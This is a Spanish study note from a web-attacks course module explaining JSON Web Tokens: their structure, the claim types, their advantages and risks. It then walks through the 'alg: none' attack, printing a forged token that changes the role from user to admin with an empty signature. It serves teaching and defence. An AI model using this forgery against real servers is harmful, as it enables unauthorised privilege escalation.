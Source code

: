 ```yaml
---
title: JWT
modulo: M3 - Ataques Web
fecha: 2025-08-01
layout: apunte
---
```

# **Teoría de JWT**
**JWT (JSON Web Token)** es un estándar para enviar información segura entre dos partes como un objeto JSON.

📌 **Se usa sobre todo para autenticación**:
- El servidor genera un token con datos del usuario (claims).    
- El cliente lo guarda (normalmente en `localStorage` o `cookies`).    
- En cada petición lo envía para demostrar que está autenticado.    

**Ejemplo de uso típico**:
1. Te logueas → el servidor te manda un JWT.    
2. Cada vez que accedes a `/perfil` o `/compras`, envías el JWT en la cabecera `Authorization: Bearer <token>`.    
3. El servidor lo valida sin tener que consultar la base de datos (por eso son rápidos).

Un JWT es un string con 3 partes separadas por puntos:

```
xxxxx.yyyyy.zzzzz 
(header).(payload).(signature)
```

**Ejemplo real**:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJ1c2VyIjoiYWxpY2UiLCJyb2wiOiJhZG1pbiJ9.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

🔹 **Header** (metadatos, algoritmo de firma, tipo de token):

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

🔹 **Payload** (datos que quieres enviar, llamados _claims_):

```json
{
  "user": "alice",
  "rol": "admin",
  "exp": 1734567890
}
```

🔹 **Signature** (firma para que nadie lo altere):
```
HMACSHA256(
   base64UrlEncode(header) + "." + base64UrlEncode(payload),
   secret
)
```

## **Tipos de Claims**
Los claims son los datos del payload. Hay 3 tipos:

1. **Registered claims** (estándar, recomendados):    
    - `iss` → quién emitió el token.        
    - `sub` → sujeto (usuario).        
    - `aud` → audiencia (para quién es válido).        
    - `exp` → fecha de expiración.        
    - `iat` → emitido en.        
    - `nbf` → “not before”, desde cuándo es válido.

2. **Public claims** → datos que cualquiera puede entender (`name`, `email`, etc.).

3. **Private claims** → personalizados (e.g., `rol: admin`).

**Ojo:** El payload **NO está cifrado**, solo **codificado en base64**. Cualquiera puede verlo, pero no debería poder modificarlo porque se rompe la firma.

## **Ventajas**
✅ No necesitas mantener sesiones en el servidor (es _stateless_).  
✅ Escalabilidad (ideal para microservicios).  
✅ Rápido, porque no tienes que consultar base de datos siempre.

---

## **Desventajas / Riesgos**
⚠️ **El payload es legible** → no metas contraseñas ni datos sensibles.  
⚠️ **Si se filtra el secret o clave privada** → cualquiera puede falsificar tokens.  
⚠️ **Difícil revocar** → si alguien roba un JWT, es válido hasta que expire (a menos que uses listas negras).  
⚠️ **Errores comunes en la validación** → ataques de _alg=none_, cambio de algoritmo, etc.

# **NONE alg attack**
Un JWT se firma para que el servidor sepa que **nadie lo modificó**.  
El **algoritmo (`alg`)** en el header indica cómo verificar la firma (`HS256`, `RS256`, etc.).

Pero… si en el header dices:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

Estás diciendo: **“No necesito firma”**.

Si el servidor **no valida correctamente** y confía en ese `alg: none`, **aceptará cualquier token modificado**.

## **Ejemplo**
Partimos del siguiente JWT
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
.eyJ1c2VyIjoiYWxpY2UiLCJyb2wiOiJ1c2VyIn0
.abcd1234firmafalsa
```

El cual tiene el siguiente payload (decodificado):
```json
{
  "user": "alice",
  "rol": "user"
}
```

Nuestro objetivo es ser **admin**, entonces modificamos el header y el payload:
```json
// Nuevo Header
{
  "alg": "none",
  "typ": "JWT"
}

// Nuevo Payload
{
  "user": "alice",
  "rol": "admin"
}
```

Ahora solo codificamos en Base64URL, sin firma:
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0
.eyJ1c2VyIjoiYWxpY2UiLCJyb2wiOiJhZG1pbiJ9.
```
(Nótese el tercer punto → firma vacía).

Enviamos este nuevo token al servidor. Si la app está mal configurada y no verifica la firma cuando ve `alg:none`, toma como valido el privilegio de **admin**.